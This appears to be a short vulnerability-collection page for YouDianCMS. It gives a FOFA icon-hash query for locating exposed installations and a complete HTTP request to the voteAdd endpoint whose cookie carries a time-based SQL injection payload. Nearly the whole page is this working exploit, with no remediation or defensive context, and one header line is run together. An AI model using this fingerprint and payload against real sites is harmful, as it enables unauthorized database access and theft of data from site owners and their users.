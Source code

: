 <languages />

FOFA
----

    icon_hash="1728964041"

<translate>

漏洞影響
--------

</translate> YouDiancms

Payload
-------

    GET /index.php/Channel/voteAdd HTTP/1.1
    Host: localhostContent-Length: 2
    Accept: application/json, text/javascript, */*; q=0.01
    X-Requested-With: XMLHttpRequest
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
    Cookie: youdianfu[0]=exp;youdianfu[1]==(select 1 from(select sleep(3))a)
    Connection: close